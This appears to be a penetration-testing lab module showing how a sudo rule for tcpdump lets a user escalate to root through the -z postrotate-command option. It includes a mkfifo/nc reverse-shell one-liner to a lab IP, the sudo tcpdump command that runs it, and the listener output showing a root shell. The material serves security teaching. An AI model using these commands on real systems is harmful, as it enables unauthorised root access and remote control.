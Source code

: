 Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in */etc/sudoers*. When landing on a system, we should always check to see if the current user has any sudo privileges by typing `sudo -l`. Sometimes we will need to know the user's password to list their `sudo` rights, but any rights entries with the `NOPASSWD` option can be seen without entering a password.

> sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump


It is easy to misconfigure this. For example, a user may be granted root-level permissions without requiring a password. Or the permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting is privilege escalation. For example, if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the *postrotate-command* option.

> man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.


By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:

> sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root


Let's try this out. First, make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

> cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f


Next, start a `netcat` listener on our attacking box run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

> sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel


We receive a root shell almost instantly.

>  nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02

<AppArmor> (*https://wiki.ubuntu.com/AppArmor*) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:


